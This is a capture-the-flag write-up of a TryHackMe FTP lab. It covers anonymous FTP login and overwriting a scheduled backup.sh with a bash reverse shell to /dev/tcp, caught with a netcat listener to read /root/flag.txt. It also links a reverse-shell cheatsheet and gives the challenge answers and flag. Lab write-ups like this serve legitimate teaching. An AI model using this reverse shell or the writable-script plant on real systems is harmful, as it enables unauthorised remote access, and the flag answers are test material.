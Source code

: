 ```yaml
---
description: Networking - FTP
---
```


# Anyone can be Santa!

## Video

{% embed url="https://www.youtube.com/watch?v=i-jqFYTPEV4" %}

## Resources

The standard for these two connections are the two ports:

* Port 20 \(Data\)
* Port 21 \(Commands\)

[pentesters cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp)

`bash -i >& /dev/tcp/Your_TryHackMe_IP/4444 0>&1`

## Challenge

Name the directory on the FTP server that has data accessible by the "anonymous" user

```text
ftp 10.10.130.142
anonymous
ls
```

![](../.gitbook/assets/image%20%2865%29.png)

{% hint style="success" %}
public
{% endhint %}

What script gets executed within this directory?

```text
ftp 10.10.130.142
anonymous
ls
cd public
ls
```

![](../.gitbook/assets/image%20%2860%29.png)

{% hint style="success" %}
backup.sh
{% endhint %}

What movie did Santa have on his Christmas shopping list?

```text
ftp 10.10.130.142
anonymous
cd public
get shoppinglist.txt
quit
cat shoppinglist.txt
```

![](../.gitbook/assets/image%20%289%29.png)

{% hint style="success" %}
The Polar Express
{% endhint %}

Re-upload this script to contain malicious data \(just like we did in section **9.6**. Output the contents of /root/flag.txt!

Note that the script that we have uploaded may take a minute to return a connection. If it doesn't after a couple of minutes, double-check that you have set up a Netcat listener on the device that you are working from, and have provided the TryHackMe IP of the device that you are connecting from.

```text
ftp 10.10.130.142
anonymous
cd public
get backup.sh
```

![](../.gitbook/assets/image%20%2856%29.png)

```text
vi backup.sh

bash -i >& /dev/tcp/10.14.4.204/4444 0>&1
```

![](../.gitbook/assets/image%20%2817%29.png)

```text
put backup.sh
```

![](../.gitbook/assets/image%20%286%29.png)

```text
nc -lnp 4444
cd /root
cat flag.txt
```

![](../.gitbook/assets/image%20%287%29.png)

{% hint style="success" %}
THM{even\_you\_can\_be\_santa}
{% endhint %}

